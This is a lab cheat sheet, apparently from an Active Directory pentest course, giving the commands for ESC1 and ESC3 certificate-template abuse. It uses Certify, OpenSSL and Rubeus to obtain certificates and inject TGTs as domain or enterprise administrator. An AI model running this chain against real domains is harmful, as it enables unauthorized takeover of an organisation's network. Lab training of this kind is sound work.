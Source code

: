 We can use the Certify tool (https://github.com/GhostPack/Certify) to enumerate (and for other attacks) AD CS in the target forest

```powershell
.\Certify.exe cas
```

Enumerate templates
```powershell
.\Certify.exe find
```

Enumerate vulnerable templates
> **Note:** This will only show us templates where normal users have enrolment rights to it
```powershell
.\Certify.exe find /vulnerable
```

### ESC3 example
##### Enterprise Administrator 

> **Note:** Difference between DA and EA is we specify the domain of the forest root for EA

Request a certificate for a certificate template (example: `SmartCardEnrollment-Agent`)
```powershell
.\Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:"SmartCardEnrollment-Agent"
```

Convert from `cert.pem` to `esc3.pfx` 
```powershell
C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\esc3.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\esc3.pfx
```

Use `esc3.pfx` to request a certificate on behalf of EA using the `SmartCardEnrollment-Users` template
```powershell
.\Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:SmartCardEnrollment-Users /onbehalfof:moneycorp.local\administrator /enrollcert:esc3.pfx /enrollcertpw:Pwned123!
```

Request EA TGT and inject it
```powershell
.\Loader.exe -path .\Rubeus.exe -args asktgt /user:moneycorp.local\administrator /certificate:esc3.pfx /dc:mcorp-dc.moneycorp.local /password:Pwned123! /ptt
```
##### Domain Administrator
Request a certificate for a certificate template (example: `SmartCardEnrollment-Agent`)
```powershell
.\Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:"SmartCardEnrollment-Agent"
```

Convert from `cert.pem` to `esc3.pfx` 
```powershell
C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\esc3.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\esc3.pfx
```

Use `esc3.pfx` to request a certificate on behalf of DA using the `SmartCardEnrollment-Users` template.
```powershell
.\Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:SmartCardEnrollment-Users /onbehalfof:dcorp\administrator /enrollcert:esc3.pfx /enrollcertpw:Pwned123!
```

Convert from `cert.pem` to pfx (`esc3user-DA.pfx` below), request DA TGT and inject it
```powershell
.\Loader.exe -path .\Rubeus.exe -args asktgt /user:administrator /certificate:esc3.pfx /password:Pwned123! /ptt
```

### ESC1 example
Check for templates that has the value of `ENROLLEE_SUPPLIES_SUBJECT ` for `msPKI-Certificates-Name-Flag`
```powershell
.\Certify.exe find /enrolleeSuppliesSubject
```

The template `HTTPSCertificates` allows enrolment to the RDPUsers group. Request
a certificate for DA (or EA) as a regular user
```powershell
.\Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:"HTTPSCertificates" /altname:moneycorp.local\administrator
```

Convert from `cert.pem` to `esc1.pfx` and specify export password
```powershell
C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\esc1.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\esc1.pfx
```

Request a TGT for DA (or EA)
```powershell
.\Loader.exe -path .\Rubeus.exe -args asktgt /user:moneycorp.local\Administrator /dc:mcorp-dc.moneycorp.local /certificate:esc1.pfx /password:Pwned123! /ptt
```
